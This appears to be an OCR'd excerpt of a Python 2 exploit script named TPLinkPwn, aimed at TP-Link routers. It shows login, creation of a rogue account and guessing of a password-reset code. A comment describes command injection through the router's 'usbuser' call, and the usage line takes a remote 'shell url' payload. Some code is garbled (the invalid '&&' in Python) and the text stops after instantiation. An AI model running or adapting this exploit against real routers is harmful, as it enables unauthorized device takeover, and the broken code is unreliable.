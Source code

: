 ```python

		data = {
		  "operation": "login",
			"username": username,
			"password": utils.encrypt(self.key, password)
		}
		print "Logging in"
		r = self.post("login?form=login", data)
		json = r.json()
		assert json["success"]

		self.cookies = r.cookies
		self.token = r.json()["data"]["stok"]

	def createAccount(self, username, password):
		assert len(username) < 16 and ' ' not in username
		assert len(password) < 16 and ' ' not in password

		if not self.key:
			self.getRsaKey()

		data = {
		  "operation": "set",
			"new_acc": username,
			"new_pwd": utils.encrypt(self.key, password),
			"cfm_pwd": utils.encrypt(self.key, password)
		}

		print "Creating user account"
		json = self.post("admin/administration?form=account", data).json()
		assert json["success"]

	def reset(self):
		print "Getting current time from Date header"
		time = self.getDate()

		print "Renerating reset code"
		self.createCode()

		print "Finding reset code"
		if not self.guessCode(time):
			print "Code not found"


if __name__ == "__main__":
	if len(sys.argv) < 2:
		print "usage: %s <router base url> [shell url]"%sys.argv[0]
		print "%s http://192.168.0.1 hack.me/s"%sys.argv[0]
		exit(-1)

	if sys.argv[2] && len(sys.argv[2]) > 10:
		print "Shellcode url cannot be greater than 10 characters"
		exit(-1)

	router = sys.argv[1]
	shell = sys.argv[2]
	"""
		Command injection when changing the usb account as it runs the following:
		os.execute("usbuser " .. username .. " '" .. password .. "'")

		username and password are limitted to a length of 16 and no spaces eg 32 < ord(c) < 127
	"""
	tp = TPLinkPwn(router)
```